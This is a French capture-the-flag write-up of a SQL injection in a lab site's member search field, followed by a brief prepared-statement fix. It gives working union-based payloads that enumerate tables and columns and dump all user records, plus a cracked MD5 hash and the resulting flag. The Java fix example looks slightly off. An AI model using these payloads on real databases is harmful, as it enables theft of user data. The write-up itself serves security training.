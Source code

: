 
#  Explications

  

En inspectant la page : /?page=member

  

Le champ de recherche **id** est sensible aux injections SQL.

  

Si on entre `1 OR 1=1` comme id. La liste de tout les utilisateurs va être affiché.

    1 OR 1=1 union select null, concat(table_name) from information_schema.tables where table_schema=database()

  Le nom de table table est **users**.
  
  

    1 OR 1=1 union select null, concat(column_name) from information_schema.columns where table_schema=database()
Grâce à cette requête, on a la liste de toute les colonnes de la table users

		1 OR 1=1 union select null, concat(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users
Affiche toutes les données de tout  les utilisateurs.

Notre flag est contenu dans la colonne countersign de l'utilisateur GetThe Flag.

5ff9d0165b4f92b14994e5c685cdce28

md5 vers texte = FortyTwo
texte vers sha256 = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

#  Protection

En préparant ses requêtes

  

Exemple:

```java

String  sql  =  "SELECT * FROM users WHERE email = ?";

  

// Run the query, passing the 'email' parameter value...

ResultSet  results  = stmt.executeQuery(sql, email);

```